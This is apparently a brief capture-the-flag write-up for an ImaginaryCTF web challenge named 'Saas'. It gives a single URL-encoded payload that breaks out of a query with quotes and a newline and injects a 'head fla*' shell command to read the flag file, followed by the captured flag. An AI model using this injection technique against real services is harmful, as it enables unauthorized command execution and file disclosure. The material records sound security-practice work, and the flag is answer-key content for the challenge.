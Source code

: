 # Saas

payload:- https://saas.chal.imaginaryctf.org/backend?query=%27%27%20%0A%20head%20fla*

![image](https://user-images.githubusercontent.com/73250884/127292823-c8b98fa9-8090-487e-962c-c38be2cb90d7.png)

Flag:- ``ictf{:roocu:roocu:roocu:roocu:roocu:roocursion:rsion:rsion:rsion:rsion:rsion:_473fc2d1}``
